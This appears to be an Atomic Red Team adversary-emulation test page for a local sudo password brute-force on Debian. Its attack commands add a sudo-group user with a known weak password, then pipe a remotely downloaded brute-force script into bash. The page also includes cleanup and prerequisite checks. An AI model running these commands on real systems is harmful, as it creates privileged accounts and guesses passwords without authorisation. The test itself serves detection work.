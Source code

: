 


<br/>
<br/>

## Atomic Test #5 - SUDO Brute Force - Debian
An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user. 

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux


**auto_generated_guid:** ba1bf0b6-f32b-4db0-b7cc-d78cacc76700





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -G sudo -s /bin/bash -p $(openssl passwd -1 password123) art
su -c "cd /tmp; curl -s #{remote_url} | bash" art
```

#### Cleanup Commands:
```bash
userdel -fr art
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Debian based machine.
##### Check Prereq Commands:
```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then echo "Debian"; else echo "NOT Debian"; exit 1; fi
if grep -Rq "pam_tally" /etc/pam.d/*; then echo "pam_tally configured"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
apt update && apt install -y openssl sudo curl
```
